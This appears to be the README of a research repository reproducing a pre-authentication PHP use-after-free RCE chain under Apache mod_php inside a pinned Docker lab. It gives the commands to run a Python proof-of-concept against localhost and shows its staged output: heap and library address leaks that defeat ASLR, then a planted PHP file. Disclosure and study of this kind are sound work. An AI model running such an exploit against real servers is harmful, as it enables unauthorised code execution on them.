

# PHP2Shell — CVE-2026-109618 / CVE-2026-109619

Reproduction of the PHP2Shell Out-Of-Memory (OOM) bailout RCE chain on a pinned, isolated `php:8.4.26-apache` (mod_php) target. 

> The PoC executes a shell command on the target.

**Complete Writeup: [`report/PHP2Shell-Writeup.md`](report/PHP2Shell-Writeup.md)**

## The Vulnerability

PHP2Shell is a pre-authentication Remote Code Execution (RCE) vulnerability affecting PHP versions ≥ 5.4.0. It exploits the fact that PHP's fatal-error bailout can interrupt native C code before it finishes updating internal state. 

Under the **Apache mod_php** SAPI, the worker process survives this fatal error. This allows an attacker to leave dangling pointers in the worker's memory via a manipulated `multipart/form-data` upload. A subsequent request consumes this corrupted state, leading to a Use-After-Free (UAF) and arbitrary code execution.

## Contents

| Path | What |
|---|---|
| `report/` | Deep-dive technical writeup (root cause, timeline, SAPI analysis) |
| `exploit/` | Working Python PoC |
| `lab/` | Isolated Docker lab (`compose.yaml`, `php-lab.ini`, `apache-lab.conf`, site) |
| `evidence/` | Raw logs, PoC stdout, proof file, HTTP response |
| `screenshots/` | Visual evidence of the exploit chain |
| `NOTICE.md` | Attribution to upstream researchers |

## Quick Start

**Prerequisites:** Docker, Docker Compose, Python 3.10+.

**1. Start the lab**

```bash
cd lab
docker compose up -d
```

**2. Verify the environment**

Ensure the container is using Apache `mod_php` (not PHP-FPM) and is reachable:

```bash
docker compose exec target apache2ctl -M | grep php     # expect: php_module (shared)
curl -sS -o /dev/null -w '%{http_code}\n' http://127.0.0.1:8088/   # expect: 200
```

**3. Run the Exploit**

The PoC will execute a fixed, harmless command (`cp /a /u/p.php`) on the server.

```bash
cd ../exploit
python3 php2shell_poc.py --target http://127.0.0.1:8088/
```

**4. Verify RCE**

```bash
curl -sS http://127.0.0.1:8088/uploads/p.php
```

### Expected Output

The exploit runs in three stages: leaking the PHP heap address, leaking the PHP library address (to defeat ASLR), and sending the final payload.

```text
SAHMSEC target: http://127.0.0.1:8088/index.php
Fixed command: cp /a /u/p.php
[*] rotating the lab PHP worker
[*] stage 1: looking for the PHP heap address
[+] heap address: 0x7fc7b3400000
[*] rotating the lab PHP worker
[*] stage 2: looking for the PHP library address
[+] PHP library address: 0x7fc7b5004000
[*] rotating the lab PHP worker
[*] stage 3: sending the fixed proof request
[+] proof: created http://127.0.0.1:8088/uploads/p.php
```

During exploitation, the Apache logs will show the Zend memory manager detecting the corrupted heap:

```text
zend_mm_heap corrupted
AH00052: child pid 16 exit signal Abort (6)
...
AH00052: child pid 25 exit signal Segmentation fault (11)
GET /uploads/p.php 200 1088
```


*(The attacker-placed PHP file executing on the server)*

## Disclaimer

The exploit is calibrated for the specific Docker image digest pinned in `lab/compose.yaml`. Using it against a different PHP build will require recalculating the memory offsets.
